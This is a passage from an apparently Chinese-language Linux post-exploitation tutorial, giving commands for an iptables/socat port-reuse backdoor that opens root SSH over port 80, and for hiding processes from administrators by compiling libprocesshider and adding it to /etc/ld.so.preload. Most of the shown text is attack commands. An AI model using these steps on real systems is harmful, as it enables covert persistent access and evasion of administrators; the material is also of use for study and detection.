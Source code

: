 利用方式：

~~~
#开启复用
echo threathuntercoming | socat - tcp:192.168.28.128:80
#ssh使用80端口进行登录
ssh -p 80 root@192.168.28.128
#关闭复用
echo threathunterleaving | socat - tcp:192.168.28.128:80
~~~

![](image/privilege-2-4.png)

 具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

### 0 x 07 进程隐藏

管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。

第一种方法：libprocesshider

github 项目地址：https://github.com/gianlucaborello/libprocesshider

利用 LD_PRELOAD 来实现系统函数的劫持，实现如下

~~~
# 下载程序编译
git clone https://github.com/gianlucaborello/libprocesshider.git
cd libprocesshider/ && make
# 移动文件到/usr/local/lib/目录下
cp libprocesshider.so /usr/local/lib/
# 把它加载到全局动态连接局
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
~~~
